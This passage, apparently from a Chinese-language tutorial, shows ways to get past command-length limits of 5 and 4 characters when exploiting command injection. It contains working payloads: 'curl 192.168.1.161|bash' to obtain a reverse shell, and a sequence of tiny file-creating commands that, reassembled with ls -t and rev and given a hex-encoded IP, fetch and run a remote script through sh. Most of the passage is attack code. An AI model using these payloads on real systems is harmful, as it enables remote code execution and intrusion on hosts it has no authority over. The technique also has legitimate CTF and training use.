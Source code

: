 **步骤三**：执行脚本sh

```
sh y
```

执行命令curl 192.168.1.161|bash

反弹shell

![image-20240427200103558](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404272001638.png)

------

#### 长度限制为4的绕过方法

```
ls>>_
追加命令长度最少为5，超过4个，不再适用
```

![image-20240507141056579](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405071410666.png)

步骤一：构造ls -t>g

```
>g\;
>g\>
>ht-
>sl
>dir
*>v
>rev
*v>x

```

步骤二：构造一个反弹的shell

ip地址用16进制表示

```
>ash
>b\
>\|\
>A1\
>01\
>A8\
>c0>
>0x\
>\\
>rl\
>cu\
sh x
sh g

```
